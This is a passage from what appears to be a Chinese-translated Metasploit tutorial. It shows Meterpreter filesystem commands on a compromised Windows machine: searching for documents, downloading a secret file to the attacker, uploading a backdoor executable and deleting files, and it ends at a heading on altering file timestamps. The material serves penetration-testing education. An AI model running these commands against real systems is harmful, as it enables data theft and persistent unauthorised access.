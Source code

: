 ```
## 它是如何工作的...

Metasploit 使用单独的频道 ID 为每条消息打上标签，这有助于识别应在其中执行特定命令的频道上下文。正如前面所述，meterpreter 中的通信过程遵循 TLV 协议，这使得可以使用特定的频道 ID 为不同的消息打上标签，以提供多频道通信支持的灵活性。

# Meterpreter 文件系统命令

在这个教程中，我们将继续使用文件系统命令。这些命令可以帮助我们探索目标系统，执行各种任务，比如搜索文件、下载文件和更改目录。您会注意到使用 meterpreter 轻松控制目标机器有多么容易。让我们开始使用一些有用的文件系统命令。

## 如何做...

我们将从简单的`pwd`命令开始，该命令列出了我们在目标机器上的当前工作目录。同样，我们可以使用`cd`命令将我们的工作目录更改为我们喜欢的位置：

```
meterpreter > pwd
C:\Users\DARKLORD\Desktop
meterpreter > cd c:\
meterpreter > pwd
c:\ 
```

正如您所看到的，我们首先使用`pwd`命令列出了我们的工作目录，然后使用`cd`命令将我们的工作目录更改为“c：”。我们还可以使用`ls`命令列出当前目录中可用的文件。

既然我们可以使用目录，我们的下一个任务将是在驱动器上搜索文件。浏览每个目录和子目录以寻找文件将非常乏味。我们可以使用`search`命令快速搜索特定文件类型。考虑以下示例：

```
meterpreter > search -f *.doc -d c:\ 
```

该命令将搜索`C`驱动器中具有`.doc`作为文件扩展名的所有文件。使用`f`参数指定要搜索的文件模式，`d`参数告诉要搜索哪个文件的目录。

所以一旦我们搜索到我们特定的文件，我们可以做的下一件事是将文件下载到目标机器上。让我们首先尝试将文件下载到我们的攻击系统：

```
meterpreter > download d:\secret.doc /root
[*] downloading: d:secret.doc -> /root/d:secret.doc
[*] downloaded : d:secret.doc -> /root/d:secret.doc 
```

通过使用`download`命令，我们可以成功地从目标机器下载任何文件到我们的机器。 “d：\secret.doc”文件在我们的攻击机器的`root`文件夹中下载。

同样，我们可以使用`upload`命令将任何文件发送到目标机器：

```
meterpreter > upload /root/backdoor.exe d:\
[*] uploading : /root/backdoor.exe -> d:\
[*] uploaded : /root/backdoor.exe -> d:\\backdoor.exe 
```

最后，我们可以使用`del`命令从目标机器中删除文件或目录。

```
meterpreter > del d:\backdoor.exe 
```

## 它是如何工作的...

Meterpreter 通过设置交互式命令提示符为我们提供对目标机器的完全访问。我们还可以放置一个 shell 会话以在默认的 Windows DOS 模式下工作，但它不会有太多功能。这是对 meterpreter 的一些重要文件系统命令的快速参考，可以帮助我们探索目标机器上的文件。还有更多的命令；建议您应该尝试它们，并找出可能存在的各种可能性。

在下一个步骤中，我们将看到一个非常有趣的 meterpreter 命令，称为`timestomp`，它可以用于修改目标机器上的文件属性。

# 使用 timestomp 更改文件属性

```